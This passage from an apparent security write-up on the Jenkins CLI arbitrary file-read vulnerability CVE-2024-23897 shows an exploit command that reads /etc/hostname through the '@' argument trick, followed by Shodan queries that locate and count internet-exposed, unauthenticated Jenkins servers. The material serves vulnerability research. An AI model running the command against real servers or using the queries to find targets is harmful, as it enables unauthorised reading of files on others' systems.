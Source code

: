 `java -jar jenkins-cli.jar -s http://localhost:1234/ -auth abraxas:abraxas -http connect-node "@/etc/hostname"`

## Analysis w/ Shodan

I came across a post indicating that [over 45,000 Jenkins instances were vulnerable](https://www.bleepingcomputer.com/news/security/45k-jenkins-servers-exposed-to-rce-attacks-using-public-exploits/) to this particular vulnerability. This led me to consider utilizing Shodan, which essentially maps the entire internet, to analyze the extent of vulnerable instances exposed to the internet.

To identify exposed instances, I wrote a Python script to [generate the MurmurHash3 hash](https://github.com/AbraXa5/Jenkins-CVE-2024-23897/blob/main/shodan_reseach/gen_favicon_hash.py) for the site's favicon.

```bash
❯ python gen_favicon_hash.py http://localhost:1234
Favicon hash: 81586312
```

Subsequently, I used the hash in a Shodan query to search for Jenkins instances, which yielded 83,655 results.

```bash
❯ shodan count "http.favicon.hash:81586312"
83655
```

Regrettably, many of these, even those accessible on the internet, require some form of authorization. So, I adjusted the query to filter results returning a 200 status code, reducing the results to 13,164.

```bash
❯ shodan count "http.favicon.hash:81586312 200"
13164

❯ shodan stats "http.favicon.hash:81586312 200"
Top 10 Results for Facet: country
CN                                              12,529
US                                              307
DE                                              55
FR                                              42
SG                                              27
IN                                              23
GB                                              19
KR                                              18
HK                                              16
IE                                              16

Top 10 Results for Facet: org
Aliyun Computing Co., LTD                       10,407
Aliyun Computing Co.LTD                         1,007
China Mobile Communications Corporation         184
CHINANET SHANGHAI PROVINCE NETWORK              121
Amazon Technologies Inc.                        120
China Unicom Shandong Province Network          93
Zhejiang Taobao Network Co.,Ltd                 88
CHINANET Guangdong province network             68
Hangzhou Alibaba Advertising Co.,Ltd.           63
Amazon.com, Inc.                                49
```
